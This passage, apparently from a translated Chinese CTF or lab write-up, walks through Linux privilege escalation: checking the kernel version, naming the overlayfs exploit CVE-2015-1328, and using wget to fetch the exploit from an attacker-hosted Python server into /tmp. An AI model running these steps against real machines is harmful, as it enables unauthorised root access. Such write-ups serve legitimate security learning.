 ![](img/0b7bd1c24280d337908873f2a59a1dd8.png)

在列举了一点之后，我发现我们可以在这一点上做**特权提升**。

让我们看一下系统信息，

```
uname -a
```

![](img/0b3acc9b0e5f742c2b4373bfef7eb2d6.png)

做了一点研究后，我发现了这个版本内核的**内核漏洞**，

![](img/18661c1b00992c242d803971deccd569.png)

**CVE-2015–1328:Linux 内核 3 . 13 . 0<3.19(Ubuntu 12.04/14.04/14.10/15.04)——‘overlayfs’本地权限提升**

我们将在我们的机器上下载这个漏洞，然后将其转移到远程机器上，但在转移之前，启动 python 服务器，通过`python3 -m http.server`在远程机器上提供文件，现在我们将在远程机器上转移这个漏洞。

首先，让我们导航到 **/tmp** 目录，然后在远程机器上下载这个漏洞，

```
wget http://10.0.2.15:8000/overlayfs.c
```

![](img/507eeeef7d9ba63fd9159e2227f583ae.png)
